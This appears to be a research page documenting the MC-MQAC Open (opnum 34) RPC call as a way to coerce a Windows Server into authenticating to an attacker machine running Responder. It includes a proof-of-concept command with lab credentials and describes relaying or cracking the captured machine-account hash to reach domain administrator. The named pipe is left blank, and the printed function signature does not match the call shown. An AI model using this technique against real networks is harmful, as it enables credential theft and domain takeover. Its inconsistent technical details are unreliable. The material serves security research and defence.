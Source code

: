 # MC-MQAC - Remote call to Open (opnum 34)

## Summary

 - **Protocol**: [[MC-MQAC]: Message Queuing (MSMQ): ActiveX Client Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/5ed096a9-b641-4a5a-b749-7e6937d20f4d)

 - **Protocol UUID**: 0fb15084-af41-11ce-bd2b-204c4f4f5020

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`Open`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/d1a87420-f35d-4ad3-9338-993b12431368)

 - **Function operation number**: `34`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MC-MQAC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/5ed096a9-b641-4a5a-b749-7e6937d20f4d) protocol (with uuid `0fb15084-af41-11ce-bd2b-204c4f4f5020` and version `0.0`) in order to perform remote procedure calls to functions in the [`MC-MQAC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/5ed096a9-b641-4a5a-b749-7e6937d20f4d) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MC-MQAC]: Message Queuing (MSMQ): ActiveX Client Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/5ed096a9-b641-4a5a-b749-7e6937d20f4d) and allows to call RPC functions of this protocol. We will then call the remote [`Open`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/d1a87420-f35d-4ad3-9338-993b12431368) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
Open('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT Open(
   [in] long Access,
   [in] long ShareMode,
   [out, retval] IMSMQQueue4** ppq
 );
```

## References

 - Documentation of protocol [MC-MQAC]: Message Queuing (MSMQ): ActiveX Client Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/5ed096a9-b641-4a5a-b749-7e6937d20f4d

 - Documentation of function `Open`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/d1a87420-f35d-4ad3-9338-993b12431368